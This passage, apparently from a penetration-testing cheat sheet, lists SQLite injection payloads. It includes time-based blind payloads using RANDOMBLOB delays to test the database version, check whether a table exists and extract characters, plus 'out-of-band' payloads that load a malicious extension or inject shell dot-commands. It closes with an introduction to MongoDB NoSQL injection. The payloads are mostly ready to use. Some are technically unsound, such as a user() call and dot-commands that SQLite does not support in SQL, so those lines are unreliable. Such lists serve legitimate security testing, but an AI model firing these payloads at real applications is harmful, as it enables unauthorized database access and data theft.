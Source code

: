 ```
' OR CASE WHEN (1=1) THEN 1 ELSE LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) END -- -
```

- **Checking SQLite Version:** Causes a time delay if the SQLite version starts with '3'.

```
' OR CASE WHEN (SUBSTR(sqlite_version(), 1, 1) = '3') THEN 1 ELSE LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) END -- -
```

- **Checking Existence of a Table:** Causes a time delay if the `users` table exists.

```
' OR CASE WHEN (EXISTS (SELECT 1 FROM sqlite_master WHERE type='table' AND name='users')) THEN 1 ELSE LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) END -- -
```

- **Extracting Data from a Column:** Causes a time delay if the first character of the `users` table name is 'u'.

```
' OR CASE WHEN (SUBSTRING((SELECT name FROM sqlite_master WHERE type='table' AND name='users'), 1, 1)='u') THEN 1 ELSE LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) END -- -
```

### Out-of-Band SQLi

- **DNS Exfiltration Using LOAD_EXTENSION:** Attempts to load a malicious extension that could be used to send data out-of-band, though SQLite's support for OOB techniques is limited.

```
' AND load_extension('/path/to/malicious/extension.so') -- -
```

- **Custom Network Interaction Using External Program:** This is an artificial delay payload, but SQLite does not natively support network operations for OOB exfiltration. An external extension or custom setup would be required.

```
' AND 1=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) -- -
```

- **Triggering External Interaction via SQLite-Shell:** Attempts to write to an external file that could be sent later via an external tool, though this is not a native SQLite feature.

```
' ; .output /tmp/output.txt; SELECT user(); .exit -- -
```

## [[P27017 MongoDB]]

### NoSQL Injection
MongoDB, as a NoSQL database, differs significantly from traditional SQL databases in structure, query language, and behavior. MongoDB doesn’t use SQL syntax, so traditional SQL Injection techniques don’t apply. However, MongoDB applications that improperly handle input data in their query operations may still be vulnerable to injection attacks. These attacks typically involve injecting malicious JavaScript or BSON (Binary JSON) code into queries, filters, or commands that MongoDB interprets and executes.
